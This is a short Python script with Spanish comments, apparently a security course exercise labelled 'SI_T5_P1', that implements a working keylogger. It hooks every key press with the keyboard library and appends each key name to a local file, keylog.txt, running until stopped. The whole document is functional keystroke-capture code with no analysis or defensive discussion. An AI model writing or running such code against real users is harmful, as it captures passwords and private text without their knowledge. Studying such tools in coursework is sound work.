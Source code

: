 # SI_T5_P1
import keyboard  


# Es la función que se encarga de guardar dichas teclas en el archivo.

def imprimir_tecla(key):

    with open("keylog.txt", "a") as file:

        if key.name == "space":
            file.write(" ")
        else:
            file.write(key.name)
# Acción para que se quede registrada la tecla pulsada.
keyboard.on_press(imprimir_tecla)
# Permite al keylogger seguir ejecutandose.
keyboard.wait()
